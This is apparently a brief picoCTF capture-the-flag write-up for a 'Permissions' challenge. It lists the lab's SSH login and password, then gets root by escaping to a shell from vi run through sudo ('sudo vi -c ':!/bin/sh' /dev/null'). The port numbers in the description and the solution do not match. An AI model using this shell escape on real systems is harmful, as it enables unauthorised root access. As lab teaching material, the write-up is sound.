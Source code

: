 <h1>Permissions</h1>

<h2>Description</h2>
<blockquote>
<p></p>Can you read files in the root file?<br/>
  The system admin has provisioned an account for you on the main server:<br/>
  ssh -p 51608 picoplayer@saturn.picoctf.net<br/>
  Password: 33qE7mB5BF<br/>
  Can you login and read the root file?<p>
</blockquote>

<h2>Solution</h2>
<p>Run command: <code>ssh - p 55120 picoplayer@saturn.picoctf.net</code></p>
<p>Then enter password <code>33qE7mB5BF</code></p>
<p>Become to picoplayer@challenge</p>
<p><code>cd ../..</code></p>
<p><code>ls</code></p>
<p><code>cd challenge/</code> -> <code>cat metadata.json</code></p>
<p>If there is error <code>-bash: cd: challenge/: Permission denied</code> then do:</p>
<ul>
  <li><code>sudo -l</code></li>
  <li><code>sudo vi -c ':!/bin/sh' /dev/null</code></li>
  <li><code># ls</code></li>
  <li><code># cd challenge</code></li>
  <li><code># cat metadata.json</code></li>
</ul>
